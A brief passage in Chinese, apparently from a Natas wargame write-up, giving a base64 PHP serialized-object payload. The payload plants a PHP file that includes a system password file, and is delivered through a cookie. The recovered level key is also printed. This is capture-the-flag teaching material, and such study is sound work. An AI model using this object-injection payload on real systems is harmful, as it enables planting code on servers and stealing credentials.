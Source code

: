 本地执行，得到base64编码后的序列化字符串：
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMToiaW1nL2FhYS5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czowOiIiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo0NjoiPD9lY2hvIGluY2x1ZGUgJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jzs/PiI7fQ==
把字符串覆盖到cookie[drawing]中，访问../img/aaa.php即可得到key。
Key:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

28. 


[back](/)

